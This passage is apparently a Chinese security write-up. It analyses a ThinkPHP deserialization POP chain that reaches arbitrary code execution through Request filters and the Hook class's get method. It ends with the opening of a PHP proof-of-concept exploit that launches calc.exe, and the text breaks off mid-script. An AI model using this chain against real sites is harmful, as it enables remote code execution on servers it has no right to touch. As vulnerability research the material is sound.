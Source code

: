 ```php
            }
        }

        // 解析过滤器
        $filter = $this->getFilter($filter, $default);

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }

        .......
        return $data;
    }
```

$this->param=array_merge($this->param, $this->get(false), $vars, $this->route(false));是直接从url中获取参数。

$this->config->get('var_ajax')也是可控的。但是他和5.1.38不同的是，5.1.38的方法是$this->config['var_ajax'],所以导致不能用数组直接操控config值。

我的解决办法是从源码中查找含有get函数的类,通过pop链的方式操控config的值。 最后发现\think\Hook.php的Hook类存在get方法


```php
public function get($tag = '')
    {
        if (empty($tag)) {
            //获取全部的插件信息
            return $this->tags;
        } else {
            return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
        }
    }
```

由上面代码可以看出，程序会判断传入的$tag是否为空，不为空的话会返回传入参数在tags数组中对应的值。private $tags = ["var_ajax"=>'a'];类似于这种形式，便可以操控$this->config->get('var_ajax')的值。

由此$filter和$value都是可控的。所以可以通过filterValue方法中的call_user_func_array任意代码执行。

poc


```php
<?php
namespace think;
abstract class Model
{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["a"=>["calc.exe"]];
        $this->data = ["a"=>new Request()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model
{
}
namespace think\process\pipes;
use think\model\Pivot;
class Windows
{
    private $files = [];
```